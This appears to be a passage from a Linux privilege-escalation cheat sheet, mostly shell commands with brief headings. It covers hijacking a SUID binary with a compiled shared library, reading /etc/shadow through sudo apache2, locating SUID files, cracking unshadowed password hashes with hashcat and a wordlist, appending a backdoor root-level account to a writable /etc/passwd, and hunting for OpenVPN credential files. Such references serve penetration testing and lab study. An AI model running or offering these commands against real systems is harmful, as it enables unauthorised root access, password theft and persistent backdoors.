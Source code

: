 ```
gcc -shared -o /home/user/.config/foundso.so -fPIC /home/user/.config/foundso.c
/usr/local/bin/somesuid
```

```
sudo apache2 -f /etc/shadow
```

## Test SUID files

Reference https://gtfobins.github.io/ and google the rest not listed.

```
find / -perm /4000 2> /dev/null
```

## Test etc/passwd & etc/shadow

Test for readable / writeable /etc/passwd OR /etc/shadow

```
ls -la /etc/passwd /etc/shadow
```

#### Only if Both Readable

```
unshadow passwd shadow > unshadowed.txt
```

```
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

#### Writable etc/passwd

```
openssl passwd thescriptkid
```

```
echo 'thescriptkid:$1$ZEx4UyBv$/2BpqiGuy7vuNC7X9SsTO0:0:0:thescriptkid:/home/thescriptkid:/bin/bash' >> /etc/passwd
```

```
su thescriptkid
```

## Stored Passwords & Keys

### OVPN Files

```
find / -iname "*.ovpn" 2> /dev/null
```
